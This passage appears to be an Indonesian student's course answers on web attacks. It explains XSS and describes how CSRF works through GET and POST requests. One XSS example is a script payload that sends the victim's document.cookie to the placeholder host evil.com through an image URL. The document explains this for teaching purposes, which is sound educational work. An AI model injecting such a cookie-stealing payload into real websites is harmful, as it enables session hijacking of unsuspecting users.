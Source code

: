 2. Pada serangan XSS atau Cross Site Scripting, terdapat script yang dapat dilakukan serangan, berikan penjelasan pada script xss attack injection berikut:<br>
Jawab:<br>

```
<script>alert(document.cookie)</script>
```
Menjelaskan bahwa hacker ingin mengambil cookie dari user dengan memasukan script tersebut<br>
dan akan menampilkan langsung kembalian / alert dokumen yang berisi cookie user tersebut<br>

```
<script>document.write('<img src="http://evil.com/?'+document.cookie+'">');</script>
```
Menjelaskan bahwa hacker ingin mendapatkan cookie user dengan cara memasukan script pada<br>
source image yang berisi sebuah alamat website hacker yaitu http://evil.com/? untuk <br>
menampung cookie nya. Mekanismenya yaitu, web tersebut akan membaca script tersebut yang<br>
berisi sebuah gambar namun ketika gambar tersebut di load oleh user maka gambar yang berisi<br>
script tadi akan mengembalikan cookie user melalui website yang sudah di sisipkan.<br>
<br>
- Sumber: 9_Web_Exploits.pptx <br>
<br>

##### CSRF & SQL Injection
1. Jelaskan proses kerja dari serangan Cross-Site Request Forgery (CSRF). Note: *tambahan, berikan secara visual proses serangan tersebut<br>
Jawab : <br>
Eksploitasi ini memanfaatkan identitas korban untuk melakukan request yang tidak<br>
diinginkan di apps. Ada 2 proses yang bisa terjadi:<br>
- GET Process, dengan cara membuat user menjalankan perintah get yang berisi code<br>
yang menguntungkan penyerang.
- POST Process, dengan cara mengelabui user untuk mensubmit code tertentu yang diinginkan<br>
attacker (code ini bisa dijalankan otomatis dengan menggunakan javascript).<br>
<br>

![](img/2.png)
